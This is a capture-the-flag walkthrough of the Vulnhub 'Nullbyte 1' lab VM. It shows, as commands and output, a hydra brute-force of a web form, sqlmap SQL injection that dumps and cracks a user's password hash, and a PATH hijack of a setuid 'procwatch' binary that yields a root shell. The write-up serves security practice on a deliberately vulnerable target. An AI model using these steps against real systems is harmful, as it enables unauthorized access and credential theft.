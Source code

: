 Nullbyte 1 solution
###################

:title: Nullbyte 1 solution
:date: 2015-08-25T00
:modified: 2015-08-25 11
:tags:


I've been AFK for a while because of various reasons, but now I'm back and have
managed to scrape a little time together to get on with some of `Vulnhub's <https://vulnhub.com>`_
new VMs. 

So let's start with `Nullbyte 1 <https://www.vulnhub.com/entry/nullbyte-1,126/>`_

Stage 1
=======

I ran the usual service discovery and found:

.. code:: bash

	root@kali:~# nmap -sV 192.168.56.101
	
	Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2015-08-25 11:29 BST
	Nmap scan report for 192.168.56.101
	Host is up (0.00057s latency).
	Not shown: 997 closed ports
	PORT    STATE SERVICE VERSION
	80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
	111/tcp open  rpcbind 2-4 (RPC #100000)
	777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

HTTP server on 80 and ssh on 777. I'm going to take the straightforward one, and head
to the HTTP server first.

Upon opening the page I only get an image and some text

.. image:: http://i.imgur.com/SlVGKol.png

I ran :code:`dirbuster` on the root and got a couple of hits: :code:`uploads` and :code:`phpmyadmin`. The first had disabled directory listing
and the second was a no go, but at least told me there was a SQL server available somewhere.

The source of the page doesn't reveal anything else either, so that last place we might be able to find something
is the image itself. There doesn't appear to be any steganography involved here and nothing in the hexdump of the image
either. Well, let me take a look at the EXIF data then.

.. code:: bash

	root@kali:~/Downloads# exiftool main.gif 
	ExifTool Version Number         : 9.74
	File Name                       : main.gif
	Directory                       : .
	File Size                       : 16 kB
	File Modification Date/Time     : 2015:08:25 10:27:37+01:00
	File Access Date/Time           : 2015:08:25 10:28:35+01:00
	File Inode Change Date/Time     : 2015:08:25 10:27:37+01:00
	File Permissions                : rw-r--r--
	File Type                       : GIF
	MIME Type                       : image/gif
	GIF Version                     : 89a
	Image Width                     : 235
	Image Height                    : 302
	Has Color Map                   : No
	Color Resolution Depth          : 8
	Bits Per Pixel                  : 1
	Background Color                : 0
	Comment                         : P-): kzMb5nVYJw
	Image Size                      : 235x302

Hrmm, that comment looks unusual. Let's try that in the URL. Initially I got a 404
but that's because I didn't remove the :code:`P-): `. Hitting :code:`http://192.168.56.101/kzMb5nVYJw`
takes me to a form asking for a key.

Stage 2
=======

Typing in something random just shows :code:`invalid key`. Ok, let me take a look at the source,
see where this thing goes.

.. code:: html
	
	<center>
	<form method="post" action="index.php">
	Key:<br>
	<input type="password" name="key">
	</form> 
	</center>
	<!-- this form isn't connected to mysql, password ain't that complex --!>

Ok, so no SQLi here then, and the password isn't complex either. I'm guessing
a simple wordlist might solve this for me. Time to break out :code:`hydra` for this:

.. code:: bash

	root@kali:~# hydra 192.168.56.101 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P /usr/share/dict/words -t 10 -w 30
	Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
	
	Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-25 11:41:58
	[DATA] max 10 tasks per 1 server, overall 64 tasks, 99171 login tries (l:1/p:99171), ~154 tries per task
	[DATA] attacking service http-post-form on port 80
	[STATUS] 18687.00 tries/min, 18687 tries in 00:01h, 80484 todo in 00:05h, 10 active
	[80][http-post-form] host: 192.168.56.101   login: x   password: elite
	1 of 1 target successfully completed, 1 valid password found

Bingo. Once I enter that into the field I am able to search for usernames.

Stage 3
=======

Entering all sorts of names reveals nothing. At this point I am guessing this
is the part that is backed by a SQL database. Although usernames and the usual
SQLi synbols don't do much, entering nothing dumps multiple records. Maybe I will
try to :code:`sqlmap` the URL to see if there's any vulnerabilities there

.. code:: bash

	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=
	
	<snip>
	
	[11:13:26] [INFO] GET parameter 'usrtosearch' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)' injectable 
	[11:13:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
	[11:13:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
	[11:13:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
	[11:13:26] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
	[11:13:26] [INFO] target URL appears to have 3 columns in query
	[11:13:26] [INFO] GET parameter 'usrtosearch' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable

Result! Using this we can now dump the databasenames, tables, and data in the DB

(output shortened for clarity)

.. code:: bash

	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --current-db
	back-end DBMS: MySQL 5.0.12
	[11:13:44] [INFO] fetching current database
	current database:    'seth'
	
	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --tables -D seth
	[11:13:55] [INFO] fetching tables for database: 'seth'
	Database: seth
	[1 table]
	+-------+
	| users |
	+-------+
	
	
	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump -D seth -T users
	Database: seth
	Table: users
	[2 entries]
	+----+---------------------------------------------+--------+------------+
	| id | pass                                        | user   | position   |
	+----+---------------------------------------------+--------+------------+
	| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
	| 2  | --not allowed--                             | isis   | employee   |
	+----+---------------------------------------------+--------+------------+

An MD5 hashed password? I best put that through `md5decoder <http://md5decoder.org/>`_ to
be rewarded with the password :code:`omega`

stage 4
=======

Turns out that this is ramses's password on the ssh service that's running on 
port 777 on the VM. So I'll connect to that and have a look at what's going on there.

Not much in his home directory, so I'll checkout what he's been up to

.. code:: bash

	ramses@NullByte:~$ cat .bash_history 
	sudo -s
	su eric
	exit
	ls
	clear
	cd /var/www
	cd backup/
	ls
	./procwatch 
	clear
	sudo -s
	cd /
	ls
	exit

Interesting, ramses has something in :code:`/var/www`. Seems like a setuid root
binary called :code:`procwatch`. After running it I would assume that it's just running :code:`ps`
to return a list of processes. If I run :code:`ps` on its own, I get the same output (minus
procwatch of course)

So let's see if it calls :code:`ps` with an absolute path, or not. As a quick test I'll create
a symlink to :code:`ls` in the current directory and name it :code:`ps`. Then I set the :code:`PATH` environment variable
with the current dir at the front.

.. code:: bash

	ramses@NullByte:/var/www/backup$ ln -s /bin/ls ps
	ramses@NullByte:/var/www/backup$ export PATH=`pwd`:${PATH}
	ramses@NullByte:/var/www/backup$ ./procwatch 
	ls  procwatch  ps  readme.txt

Excellent, it just calls :code:`ps` without a path. A classic issue you can often
find in programs that call other programs.

So let me leverage this to get myself a root shell and ultimately the flag

.. code:: bash

	ramses@NullByte:/var/www/backup$ ln -snf /bin/sh ps
	ramses@NullByte:/var/www/backup$ ./procwatch 
	# whoami 
	root
	# cat /root/proof.txt
	[OUTPUT CUT]

And that concludes the NullByte VM walkthrough. A nice little machine with some fun
challenges. Thanks to ly0n for creating it.

